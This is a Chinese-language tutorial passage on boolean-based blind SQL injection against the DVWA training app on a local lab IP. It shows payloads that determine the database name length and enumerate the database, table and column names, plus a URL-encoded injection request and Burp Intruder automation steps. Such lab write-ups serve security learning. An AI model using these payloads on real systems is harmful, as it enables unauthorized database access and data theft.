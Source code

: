 	通过构造如下sql语句进行数据库长度的查询

```mysql
1' and if(length(database())=4,1,0)-- 
```

判断出长度为4

### 布尔盲注入判断库名

这一步操作其实就是通过遍历

```
0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.@_
```

与语句进行整合判断出是否返回1

```mysql
1' and if(SUBSTRING(database(),1,1)='$d',1,0)-- 
```

当然了，我们手动进行一个一个测试肯定很慢，那么我们可以借助burp来进行如此操作

带有构造sql语句的url

```
http://192.168.18.137/01/vulnerabilities/sqli_blind/?id=1%27%20and%20if(SUBSTRING(database(),1,1)=%27d%27,1,0)--%20&Submit=Submit#
```

再burp里面抓包然后送入intruder

先清除变量 然后再将数字和字母设为变量 攻击类型选择 `cluster bomb`

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232208426-323266936.png)


然后就是payloads里面两个变量的设置 然后开始攻击就行 跑出来的状态码为200即为成功！

获得的数据库名为 dvwa

接着我们通过库名来获取表名

```
1' and if(SUBSTRING((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1),1,1)='g',1,0)-- 
```

同样通过burp进行抓包

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232216969-1395888437.png)




获取到表名guestbook

然后获取字段名

```
1' and if(SUBSTRING((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1,1),1,1)='l',1,0)-- 
```
